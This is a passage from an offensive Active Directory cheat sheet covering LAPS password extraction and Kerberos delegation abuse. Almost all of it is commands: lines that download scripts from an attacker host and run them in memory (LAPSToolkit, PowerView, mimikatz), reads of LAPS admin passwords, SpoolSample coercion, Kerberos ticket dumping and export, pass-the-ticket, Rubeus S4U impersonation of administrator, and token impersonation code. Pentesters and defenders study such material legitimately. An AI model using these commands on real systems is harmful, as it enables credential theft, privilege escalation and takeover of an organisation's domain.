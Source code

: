 ##### LAPS

```powershell
iex(new-object net.webclient).downloadstring(http://ip:port/LAPSToolkit.ps1);Get-LAPSComputers
```

```powershell
iex(New-Object Net.WebClient).DownloadString('http://IP/PowerView.ps1');Get-ADObject -Name MachineName -DomainController IP -Properties ms-mcs-admpwd 
```

##### Unconstrained Delegation

```powershell
Rubeus:

Get-NetComputer -UnConstrained
Rubeus triage
Rubeus monitor /monitorinterval:1 /nowrap
SpoolSample DC01 helpdesk.lab
Rubeus ptt /ticket:
klist


Mimikatz:

iex(new-object net.webclient).downloadstring('http://ip:port/mimikatz.txt');invoke-mimikatz -Command privilege::debug;invoke-mimikatz -Command sekurlsa::tickets;invoke-mimikatz -Command '"sekurlsa::tickets /export"';invoke-mimikatz -command '"kerberos::ptt [0;9eaea]-2-0-60a10000-admin@krbtgt-PROD.CORP1.COM.kirbi"'
```

##### Constrained Delegation

```powershell
User Constrained Delegation

Get-NetUser -TrustedToAuth
Rubeus.exe tgtdeleg
Rubeus.exe s4u /ticket: /impersonateuser:administrator /domain:offense.local /msdsspn:cifs/dc01.offense.local /dc:dc01.offense.local /ptt
klist


Machine Constrained Delegation

NT AUTHORITY REQUIRED

Get-NetComputer -TrustedToAuth
[Reflection.Assembly]::LoadWithPartialName('System.IdentityModel') | out-null
$idToImpersonate = New-Object System.Security.Principal.WindowsIdentity @('administrator')
$idToImpersonate.Impersonate()
[System.Security.Principal.WindowsIdentity]::GetCurrent() | select name
```

